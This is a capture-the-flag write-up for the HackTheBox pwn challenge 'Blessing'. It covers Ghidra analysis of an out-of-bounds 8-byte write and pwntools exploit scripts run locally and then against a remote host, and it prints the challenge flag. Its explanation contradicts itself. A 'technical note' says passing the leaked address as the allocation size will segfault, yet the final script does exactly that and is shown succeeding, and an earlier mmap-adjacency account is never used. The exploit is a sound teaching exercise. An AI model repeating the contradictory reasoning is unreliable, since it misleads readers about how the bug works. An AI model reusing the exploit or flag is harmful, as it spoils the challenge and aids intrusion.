In this challenge, we will first download the provided .zip file to see what it contains.



In this case, it contains 3 files:
blessing → if executed, it launches the following musical program:
```bash
$ ./blessign
```


flag.txt → This is not the required flag, but we understand that the "blessing" program will look for this file locally. Consequently, we will need to obtain a flag.txt when we run it against the IP:Port provided by HTB.

glibc → GNU C Library, contains everything necessary for the C program (Blessing in this case) to work as expected.

To analyze this program, we will use the NSA's tool designed for program analysis—I'm referring to Ghidra → https://github.com/nationalsecurityagency/ghidra



Now we go to → File → New Project → Non-Shared Project... and create the project.



Now we import the binary provided to us (`blessing`) → File → Import File → Select the binary.



We click OK on the pop-up window, and to analyze the binary, we drag it onto the dragon icon.



This opens the binary for analysis. The following pop-up window will appear; we click "Analyze" so it analyzes the low-level structure of the program.





If we go to the left column and navigate to "Functions" → `main`, we will be able to see the program.



Before analyzing the binary, we need to keep the following concepts in mind:

* **Stack** → Small, temporary variables.
* **Heap** → Requests memory on demand. It is a dynamic memory region that requests memory fragments to execute processes.
* **Code** → The program itself.
* **Libraries** → `glibc`, etc.
* **Malloc** → *Memory Allocation*, requests bytes and returns the address containing them. Example: `malloc(100)` requests 100 bytes and returns the address where they begin. In short, it returns a memory address.
* If you request an excessively large `malloc`, it returns `NULL` or `0x0`. Example: `p = malloc(9999999999999)` → this results in `p = 0`.
* The `malloc` calls in our binary are in hexadecimal; we can convert them to decimal directly in Ghidra.



In this case, we see that local_20 is the address of the first byte used to allocate 196,608 bytes.

Let's analyze the vulnerability:

```bash
local_20 = malloc(0x30000);           // large chunk → goes to mmap (exceeds mmap_threshold, 0x20000 by default)
*local_20 = 1;                                           // first 8 bytes = 1  ← this is what we need to set to 0
printf("%p", local_20);                       // LEAK: prints the buffer address (then visually "erases" it with \b, but over a socket that erases nothing—it's just 0x08 bytes)
// asks for "length" -> scanf into local_30 (size_t, controlled by you)
local_18 = malloc(local_30);           // arbitrary size buffer chosen by you
read(0, local_18, local_30);            // reads exactly local_30 bytes
*(undefined8 *)(local_18 + local_30 - 1) = 0;   // ← HERE is the bug
```

That last line is key: instead of setting a single byte to 0 at the end of the buffer (like a normal string terminator), Ghidra tells us it's an 8-byte write (undefined8) starting at local_30 - 1. This writes 7 bytes past the end of the buffer you allocated with malloc(local_30).

Since the first malloc(0x30000) is so large that it goes directly to mmap, if you also request a local_30 that is large enough, your second buffer (local_18) will also go to mmap. In Linux, consecutive mmap allocations are usually placed adjacent to each other, right below the previous one (growing toward lower memory addresses). That means local_18 can end up placed directly adjacent to—and below—local_20 in memory.

If you pick the exact size, that 8-byte 0 overflow can land directly on the first 8 bytes of local_20 (where the 1 is located), setting it to 0:

```bash
if (*local_20 == 0) {
  read_flag();
}
```

Knowing this, let's try to inspect the leaked address:

```bash
$ emacs exploit.py
```
Since we need pwntools, we will use a virtual environment:

```bash
# 1. Create the virtual environment
python3 -m venv htb-venv

# 2. Activate it
source htb-venv/bin/activate

# 3. Install pwntools cleanly
pip install pwntools
```



Once we have pwntools installed, we proceed with our exploit.py script to capture the leaked value:

```bash
#!/usr/bin/env python3

from pwn import *

p = process("./blessing")
p.recvuntil(b"this: ")

addr_leak = int(p.recvuntil(b"\x08")[:-1].decode(), 16)

info(f"Leak Addr: {hex(addr_leak)} -->{addr_leak}")
```

Now we run it to see if we can capture the value that gets erased afterward:

```bash
$ python3 exploit.py
```



Well, this massive value is what is being leaked: 0x7fa0dabd8010 --> 140328841347088, and I will provide this integer value when the program prompts me for the length.

In this line of code, when we input the exorbitant leaked amount, local_18 will be 0 since the malloc call is too large and will evaluate to 0.

Technical note on the exploit logic:
If you pass the raw leaked pointer (140,328,841,347,088 bytes, which is ~140 TB) as the allocation size:

malloc will fail and return NULL (0).

read(0, 0, size) will fail or crash because the target pointer local_18 is 0.

The off-by-one write *(local_18 + local_30 - 1) = 0 will attempt to write to address 0x7fa0dabd800f, which will cause a Segmentation Fault rather than overwriting local_20.

To make local_18 land directly adjacent to local_20 via mmap, you need to calculate an actual allocation size (a relative offset/page-aligned size), not pass the 64-bit memory address itself as the size argument.



In this way, this line will return the following:



0x7fa0dabd8010 --> 140328841347088. Since it states that local_30 subtracts 1, we would start from address 0x7fa0dabd800f, resulting in the following 8 bytes:

0x7fa0dabd800f → 0
0x7fa0dabd8010 → 0
0x7fa0dabd8011 → 0
0x7fa0dabd8012 → 0
0x7fa0dabd8013 → 0
0x7fa0dabd8014 → 0
0x7fa0dabd8015 → 0
0x7fa0dabd8016 → 0
Knowing this, we will continue with our script:

```bash
$ emacs exploit.py
```

```bash
#!/usr/bin/env python3

from pwn import *

p=process("./blessing")
p.recvuntil(b"this: ")

addr_leak = int(p.recvuntil(b"\x08")[:-1].decode(), 16)

info(f"Leak Addr: {hex(addr_leak)} -->{addr_leak}")
p.sendlineafter(b"length: ", str(addr_leak).encode())
p.sendlineafter(b"song: ", b"prueba")

flag_content = p.recvline()

print(flag_content)
```


So, we obtained the local flag. Now, what we need to do is modify the script to "attack" the IP and port provided by HTB.



So, the script is like:

```bash
#!/usr/bin/env python3

from pwn import *

# Replace with the IP and Port provided by HTB
HOST = "127.0.0.1"  
PORT = 1337

# Connect to the remote instance instead of process()
p = remote(HOST, PORT)

p.recvuntil(b"this: ")

addr_leak = int(p.recvuntil(b"\x08")[:-1].decode(), 16)

info(f"Leak Addr: {hex(addr_leak)} -->{addr_leak}")
p.sendlineafter(b"length: ", str(addr_leak).encode())
p.sendlineafter(b"song: ", b"prueba")

flag_content = p.recvline()

print(flag_content)
``` 

Now if we run the script, we will obtain the desired flag from the provided IP and port:
```bash
$ python3 exploit.py
```


Efectivamente obtenemos la flag:
```bash
HTB{3v3ryth1ng_l00k5_345y_w1th_l34k5}
```